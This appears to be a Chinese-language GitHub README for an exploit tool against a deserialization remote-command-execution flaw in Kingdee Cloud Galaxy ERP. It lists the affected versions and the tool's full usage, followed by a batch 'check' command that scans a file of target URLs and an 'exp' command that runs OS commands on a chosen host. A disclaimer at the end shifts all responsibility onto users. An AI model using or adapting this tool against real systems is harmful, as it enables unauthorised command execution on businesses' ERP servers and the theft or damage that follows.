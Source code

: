 ## 金蝶云星空 Kingdee-erp-Unserialize-RCE

由于金蝶云星空数据通信默认采用的是二进制数据格式，需要进行序列化与反序列化，在此过程中未对数据进行签名或校验，导致客户端发出的数据可被攻击者恶意篡改，写入包含恶意代码的序列化数据，达到在服务端远程命令执行的效果。该漏洞不仅存在于金蝶云星空管理中心（默认8000端口），普通应用（默认80端口）也存在类似问题。

影响范围：

6.x版本：低于6.2.1012.4

7.x版本：7.0.352.16 至 7.7.0.202111

8.x版本：8.0.0.202205 至 8.1.0.20221110

### Usage
```
usage: Kingdee-erp-Unserialize-RCE.py [-h] [-u URL] [--check] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT]
                                      [-p PROXY] [--cmd CMD]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. http://127.0.0.1)
  --check               Check if vulnerable
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
  --cmd CMD             execute cmd (e.g. whoami)
```

### poc

```
python .\Kingdee-erp-Unserialize-RCE.py -f .\url.txt --check -t 10
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/1.png)

### exp

```
python .\Kingdee-erp-Unserialize-RCE.py -u http://host --cmd 'dir'
```

![](https://raw.githubusercontent.com/Sweelg/-Kingdee-erp-Unserialize-RCE/master/img/2.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。

